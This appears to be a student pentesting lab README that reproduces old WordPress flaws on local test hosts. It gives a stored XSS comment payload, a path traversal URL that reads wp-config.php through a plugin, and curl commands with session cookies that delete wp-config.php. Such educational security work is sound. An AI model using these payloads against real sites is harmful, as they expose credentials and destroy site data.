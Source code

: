 # Project 7 - WordPress Pentesting

Time spent: **22+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    ![GIF Walkthrough](./img/1.gif)
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - ![GIF Walkthrough](./img/2.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthantiacted user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - ![GIF Walkthrough](./img/3.gif)
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies frome Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies frome Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.